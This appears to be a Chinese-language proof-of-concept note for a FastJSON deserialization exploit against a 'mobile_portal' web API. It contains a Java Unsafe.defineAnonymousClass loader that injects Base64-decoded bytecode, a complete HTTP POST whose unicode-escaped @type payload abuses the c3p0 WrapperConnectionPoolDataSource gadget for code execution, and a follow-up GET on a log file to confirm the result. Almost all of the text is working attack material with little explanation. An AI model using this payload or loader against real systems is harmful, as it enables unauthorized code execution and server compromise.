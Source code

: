 ```plain
String str = "xxxxx";
byte[] bytes = Base64.getDecoder().decode(str);
Field theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe)theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bytes, null).newInstance();
```

## POC

[https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw](https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw)

对于 unicode 字符，FastJSON 会自动处理解析的

```plain
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```

然后再 Get 访问`/mobile_portal/api/systemLog/pns/loadLog/app.log`
